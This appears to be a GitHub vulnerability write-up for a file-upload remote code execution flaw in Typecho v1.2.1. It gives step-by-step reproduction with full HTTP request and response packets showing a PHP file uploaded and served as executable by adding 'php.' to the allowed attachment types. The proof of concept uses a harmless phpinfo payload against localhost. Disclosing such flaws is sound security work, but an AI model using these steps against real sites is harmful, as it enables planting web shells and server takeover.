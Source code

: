 # typecho-v1.2.1-RCE
typecho-v1.2.1-RCE

## Vulnerability to reproduce
Log in to the backend of the website. Locate the /admin/options-general.php file and add 'php.' to the '其他格式' section at the bottom. Then click on '保存设置'.

```php
POST /typecho/index.php/action/options-general?_=7f7f3849a454840627316bb52364d2fc HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 262
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/typecho/admin/options-general.php
Cookie: 49687d6f50b4bcdd180e408f21e5efa5__typecho_uid=1; 49687d6f50b4bcdd180e408f21e5efa5__typecho_authCode=%24T%24uKyiUEUfT3f8a523484b8bf9731cc8c1d2a8b6aa7; PHPSESSID=s25t07f2di5m8kfc5vuqf5bg7l; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=1910606b29d5c2ce; DedeLoginTime=1686923767; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=64371f6768b13b59; _csrf_name_6f6a18a7=ca33b084396b5d22e954fe124954e4dc; _csrf_name_6f6a18a71BH21ANI1AGD297L1FF21LN02BGE1DNG=c51a2607b5a3e048
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

title=Hello+World&siteUrl=http%3A%2F%2F127.0.0.1%2Ftypecho&description=Your+description+here.&keywords=typecho%2Cphp%2Cblog&allowRegister=0&allowXmlRpc=2&timezone=28800&attachmentTypes%5B%5D=%40image%40&attachmentTypes%5B%5D=%40other%40&attachmentTypesOther=php.
```

![web](./typecho-V1.2.1_rce_01.png)

Visit the URL 'http://127.0.0.1/typecho/admin/write-post.php'. This is based on the current directory where I have set up. The actual directory is 'admin/write-post.php'. After entering, click on the '附件' button on the right side, and then click the highlighted button '选择文件上传'. Upload a random PHP file here and the system will not block it. After successful upload, the file can still be executed and the PHP address will be returned.

![web](./typecho-V1.2.1_rce_02.png)

The following is the request packet.

```php
POST /typecho/index.php/action/upload?_=d84b30765596739f0c2d3724d7971184 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------163606809438821006984144374022
Content-Length: 519
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/typecho/admin/write-post.php
Cookie: 49687d6f50b4bcdd180e408f21e5efa5__typecho_uid=1; 49687d6f50b4bcdd180e408f21e5efa5__typecho_authCode=%24T%24uKyiUEUfT3f8a523484b8bf9731cc8c1d2a8b6aa7; PHPSESSID=s25t07f2di5m8kfc5vuqf5bg7l; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=1910606b29d5c2ce; DedeLoginTime=1686923767; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=64371f6768b13b59; _csrf_name_6f6a18a7=ca33b084396b5d22e954fe124954e4dc; _csrf_name_6f6a18a71BH21ANI1AGD297L1FF21LN02BGE1DNG=c51a2607b5a3e048
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------163606809438821006984144374022
Content-Disposition: form-data; name="name"

20230616121905.php
-----------------------------163606809438821006984144374022
Content-Disposition: form-data; name="file"; filename="phpinfo.php"
Content-Type: application/octet-stream

<?php
phpinfo();
?>
-----------------------------163606809438821006984144374022--
```

The following is the response packet.

```php
HTTP/1.1 200 OK
Date: Fri, 16 Jun 2023 14:51:24 GMT
Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b mod_fcgid/2.3.9a mod_log_rotate/1.02
X-Powered-By: PHP/7.3.4
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Connection: close
Content-Type: application/json; charset=UTF-8
Content-Length: 303

["http:\/\/127.0.0.1\/typecho\/usr\/uploads\/2023\/06\/3042336957.php",{"cid":8,"title":"phpinfo.php","type":"php","size":21,"bytes":"1 Kb","isImage":false,"url":"http:\/\/127.0.0.1\/typecho\/usr\/uploads\/2023\/06\/3042336957.php","permalink":"http:\/\/127.0.0.1\/typecho\/index.php\/attachment\/8\/"}]
```

The requested URL is 'http://127.0.0.1/typecho/usr/uploads/2023/06/3042336957.php'.

![web](./typecho-V1.2.1_rce_03.png)

## Vulnerability Analysis
The website filtered extensions such as php, php5, php3, etc., but forgot about php. It can still be parsed successfully on Windows.

